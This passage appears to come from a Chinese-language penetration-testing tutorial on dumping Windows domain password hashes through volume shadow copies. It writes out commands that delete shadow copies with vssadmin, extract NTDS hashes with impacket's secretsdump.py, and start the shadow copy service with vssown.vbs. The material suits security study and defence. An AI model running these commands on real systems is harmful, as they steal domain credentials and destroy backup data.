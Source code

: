 Step 3：之后执行以下命令删除影卷信息：

`vssadmin delete shadows /for=c: /quiet`

[![image.png](assets/1698894155-6520f9898b6ff3555cc61ecd41b9ec95.png)](https://storage.tttang.com/media/attachment/2022/09/30/ab5474fa-1563-4d6a-88ae-f9201075ac91.png)

Step 4：之后通过 impacket 来导出 hash 值

./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL

[![image.png](assets/1698894155-e6743c38c0a67ce8c6009f378c380379.png)](https://storage.tttang.com/media/attachment/2022/09/30/09bb6e6b-e43a-46c1-a1e6-ef2f380bf7a8.png)

##### [vssown.vbs](#toc_vssownvbs)

与 vssadmin 程序类似，Tim Tomes 开发了 vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。

Step 1:启动影卷拷贝服务

cscript vssown.vbs /start

[![image.png](assets/1698894155-d86aebaa19b269925737285ec035292d.png)](https://storage.tttang.com/media/attachment/2022/09/30/a214f087-17a0-4d76-874e-f5338b1849d1.png)
